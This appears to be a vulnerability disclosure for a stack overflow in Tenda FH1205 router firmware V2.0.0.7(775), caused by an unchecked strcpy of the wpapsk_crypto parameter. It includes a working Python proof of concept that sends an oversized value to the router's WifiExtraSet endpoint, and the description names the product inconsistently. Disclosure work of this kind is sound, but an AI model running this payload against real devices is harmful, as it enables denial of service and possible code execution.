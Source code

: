 # Tenda FH1205 formWifiExtraSet
### Overview
vendor: Tenda

product: FH1205

version: V2.0.0.7(775)

type: Stack Overflow
### Vulnerability Description
Tenda AC500 V2.0.0.7(775) were discovered to contain a stack overflow via the wpapsk_crypto parameter in the formWifiExtraSet function.
### Vulnerability details
In function formWifiExtraSet line 448, it reads in a user-provided parameter `wpapsk_crypto`, and the variable `tkip_aes_1` is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `tkip_aes`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/1.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WifiExtraSet"

data = {
    "clientApEn": "1",
    "ssid": "1",
    "security": "wpapsk",
    "wpapsk_crypto": "a" * 4000,
    "wpapsk_key": "06b4be19da289f475aa46a33cb793029d4ab3db7a23ee92382eb0106c72ac7bb"
}

response = requests.post(url, data=data)
print(response.text)
```